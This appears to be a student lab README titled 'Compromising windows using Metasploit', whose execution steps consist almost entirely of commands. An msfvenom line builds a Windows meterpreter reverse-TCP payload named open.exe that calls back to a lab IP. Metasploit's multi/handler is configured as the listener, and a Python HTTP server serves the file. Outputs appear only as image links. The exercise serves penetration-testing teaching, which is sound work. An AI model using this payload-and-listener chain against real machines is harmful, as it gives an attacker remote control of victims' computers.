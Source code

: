# EX 6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```

### OUTPUT:

![alt text](<win hack.png>)

```python3 -m http.server 5678```

### OUTPUT:

![alt text](host.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
